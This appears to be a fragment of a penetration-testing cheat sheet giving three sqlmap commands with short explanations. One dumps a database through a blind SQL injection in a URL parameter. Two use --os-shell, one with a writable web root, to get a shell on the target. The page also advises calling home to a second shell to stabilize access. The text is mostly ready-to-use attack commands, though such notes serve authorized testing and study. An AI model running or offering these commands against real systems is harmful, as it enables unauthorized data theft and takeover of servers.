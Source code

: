 

#### Usage

`sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump` - basic usage with URL and targeted parameter. If vulnerability is found it will then dump the database.

`sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"` - uses a saved request from burpsuite to specify the attack space, which will attempt to gain a shell to the target os. the target param is item. The custom writable file is --web-root which will be used to make the shell.

`sqlmap -r request.txt -p <item> --os-shell --batch --level=5 --risk=3` - auto shell after finding injection point. if you get a shell - use it to call home to another shell to stabilize and get more features.

